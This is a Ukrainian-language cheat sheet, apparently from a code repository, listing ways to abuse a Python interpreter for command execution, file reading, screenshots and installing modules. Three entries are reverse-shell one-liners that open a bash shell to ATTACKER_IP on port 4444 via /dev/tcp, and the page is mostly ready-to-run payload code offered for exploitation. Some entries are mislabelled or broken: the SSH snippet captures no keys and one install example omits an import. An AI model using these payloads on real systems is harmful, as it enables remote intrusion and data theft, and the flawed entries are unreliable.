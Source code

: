 
# Вектори атак через Python-інтерпретатор

Цей документ містить список основних векторів атак за допомогою Python-інтерпретатора, з прикладами для віддаленого виконання команд, відкриття з’єднання з атакуючою машиною, а також інших методів експлуатації.

## Вектори атак

1. **Виконання команди через `os.popen`**
   - Використовується для виконання команд на системі і повернення результату.
   - **Приклад**: Виведення поточного користувача (whoami) через `os.popen`:
     ```python
     __import__('os').popen('whoami').read()
     ```

2. **Читання вмісту файлу**
   - Для читання вмісту файлу одним рядком, аналогічно тому, як `__import__('os').popen('whoami').read()`, можна застосувати команду в Unix/Linux для читання файлу через Python в такому форматі:
   - **Приклад**: Використання умовно `cat` для віддаленого виконання:
     ```python
     __import__('os').popen('cat /path/to/your/file.txt').read()

     ```

3. **Виконання зворотного Shell через Python**
   - Відкриває зворотне з'єднання через Bash з атакуючою машиною на порту 4444.
   - **Приклад**: Відкриття зворотного з'єднання:
     ```python
     __import__('os').popen("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'").read()
     ```

4. **Виконання команди через `subprocess`**
   - Можна використовувати `subprocess` для виконання команд в системі, що дозволяє більш складно інтегрувати команди, наприклад, через аргументи.
   - **Приклад**: Виконання команди на цільовій системі:
     ```python
     import subprocess
     subprocess.Popen(["bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])
     ```

5. **Використання `os.system` для зворотного Shell**
   - `os.system` дозволяє виконувати команди в shell.
   - **Приклад**: Встановлення зворотного з'єднання за допомогою `os.system`:
     ```python
     import os
     os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
     ```

6. **Використання Python для перехоплення SSH ключів**
   - Можна створити просту сесію для підключення до SSH-серверу через Python, що дасть змогу зловити ключі.
   - **Приклад**: Використання Python для підключення до SSH через `paramiko`:
     ```python
     import paramiko
     ssh = paramiko.SSHClient()
     ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
     ssh.connect('TARGET_IP', username='user', password='password')
     ```

7. **Захоплення екрану через Python**
   - Використання бібліотеки `pyautogui` для захоплення скріншоту цільової машини.
   - **Приклад**: Зробити скріншот:
     ```python
     import pyautogui
     pyautogui.screenshot('screenshot.png')
     ```

8. **Виконання віддаленого коду через WebSocket**
   - Можна використовувати WebSocket для виконання віддаленого коду на цільовій машині.
   - **Приклад**: Використання WebSocket для віддаленого виконання команд:
     ```python
     import websocket
     ws = websocket.create_connection("ws://TARGET_IP:PORT")
     ws.send("command_to_execute")
     ```

## Інсталяція Python-модулів безпосередньо з Python-інтерпретатора

Іноді під час експлуатації або тестування зловмисник може захотіти встановити додаткові модулі безпосередньо через Python-інтерпретатор, не виходячи з нього. Ось як можна зробити інсталяцію:

1. **Інсталяція за допомогою `subprocess`**:
   - Використовує команду `pip` для встановлення пакета:
   ```python
   import subprocess
   import sys
   subprocess.check_call([sys.executable, "-m", "pip", "install", "pyautogui"])
   ```

2. **Інсталяція через `pip` бібліотеку**:
   - Можна використовувати метод `pip.main()`, якщо ви працюєте зі старішими версіями Python:
   ```python
   import pip
   pip.main(['install', 'pyautogui'])
   ```

3. **Альтернативний метод**: 
   - За допомогою **`subprocess`** можна також використовувати інші методи для більш контрольованого виконання.
   ```python
   import subprocess
   subprocess.check_call([sys.executable, "-m", "pip", "install", "pyautogui"])
   ```

